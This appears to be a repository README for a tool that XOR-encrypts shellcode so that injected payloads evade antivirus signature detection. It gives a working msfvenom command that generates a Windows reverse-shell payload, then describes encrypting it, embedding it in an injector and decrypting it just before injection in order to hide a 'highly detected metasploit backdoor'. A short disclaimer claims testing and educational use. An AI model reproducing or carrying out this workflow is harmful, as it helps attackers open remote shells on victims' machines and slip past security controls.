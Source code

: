 This repository contains a tool that can encrypt all type of files and give the encrypted output in the form of an encrypted shellcode. Process of encrypting shellcode is very important for injection processes to bypass signature based detection by the security controls. Consider an example of using a highly detected metasploit backdoor shellcode. Now for injecting such a shellcode, we need obfuscation to bypass detection by antiviruses. This tool helps us in encrypting that shellcode which will be saved in the injector and decrypted just before injection.

DISCLAIMER: For security testing and educational purposes only !!!

Example:

create a metasploit shellcode: msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -f raw -o shellcode.bin
enceypt it with this tool: XOR_Shellcode_Encryptor.exe shellcode.bin encrypted_code.txt mySecretEncryptionKey
add encrypted shellcode inside the injector
decrypt it with the key before injection
